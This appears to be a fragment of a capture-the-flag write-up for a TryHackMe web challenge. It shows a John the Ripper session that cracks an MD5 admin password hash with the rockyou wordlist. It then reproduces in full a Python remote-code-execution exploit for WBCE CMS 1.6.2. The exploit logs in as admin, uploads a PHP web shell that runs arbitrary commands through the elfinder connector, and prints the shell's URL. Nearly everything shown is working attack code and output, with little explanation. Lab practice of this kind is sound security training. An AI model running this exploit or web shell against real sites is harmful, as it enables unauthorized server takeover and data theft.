

```
┌──(root㉿ket752sbah)-[~/THM/Hackfinity_battle/Web]
└─# echo "b0439fae31f8cbba6294af86234d5a28" > hash_admin.txt  
┌──(root㉿ket752sbah)-[~/THM/Hackfinity_battle/Web]
└─# john hash_admin.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
securepassword   (?)   
1g 0:00:00:00 DONE (2025-03-19 17:41) 14.28g/s 18656Kp/s 18656Kc/s 18656KC/s seductiveone..secilly
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

 
```


```
# Exploit Title: WBCE CMS v1.6.2 - Remote Code Execution (RCE)
# Date: 3/5/2024
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://wbce-cms.org/
# Software Link: https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.2.zip
# Version: 1.6.2
# Tested on: MacOS

import requests
from bs4 import BeautifulSoup
import sys
import time

def login(url, username, password):
    print("Logging in...")
    time.sleep(3)
    with requests.Session() as session:
        response = session.get(url + "/admin/login/index.php")
        soup = BeautifulSoup(response.text, 'html.parser')
        form = soup.find('form', attrs={'name': 'login'})
        form_data = {input_tag['name']: input_tag.get('value', '') for input_tag in form.find_all('input') if input_tag.get('type') != 'submit'}
        # Kullanıcı adı ve şifre alanlarını dinamik olarak güncelle
        form_data[soup.find('input', {'name': 'username_fieldname'})['value']] = username
        form_data[soup.find('input', {'name': 'password_fieldname'})['value']] = password
        post_response = session.post(url + "/admin/login/index.php", data=form_data)
        if "Administration" in post_response.text:
            print("Login successful!")
            time.sleep(3)
            return session
        else:
            print("Login failed.")
            print("Headers received:", post_response.headers)
            print("Response content:", post_response.text[:500])  # İlk 500 karakter
            return None

def upload_file(session, url):
    # Dosya içeriğini ve adını belirleyin
    print("Shell preparing...")
    time.sleep(3)
    files = {'upload[]': ('shell.inc', """<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
    system($_GET['cmd']);
}
?>
</pre>
</body>
</html>""", 'application/octet-stream')}
    data = {
        'reqid': '18f3a5c13d42c5',
        'cmd': 'upload',
        'target': 'l1_Lw',
        'mtime[]': '1714669495'
    }
    response = session.post(url + "/modules/elfinder/ef/php/connector.wbce.php", files=files, data=data)
    if response.status_code == 200:
        print("Your Shell is Ready: " + url + "/media/shell.inc")
    else:
        print("Failed to upload file.")
        print(response.text)

if __name__ == "__main__":
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    session = login(url, username, password)
    if session:
        upload_file(session, url)
```


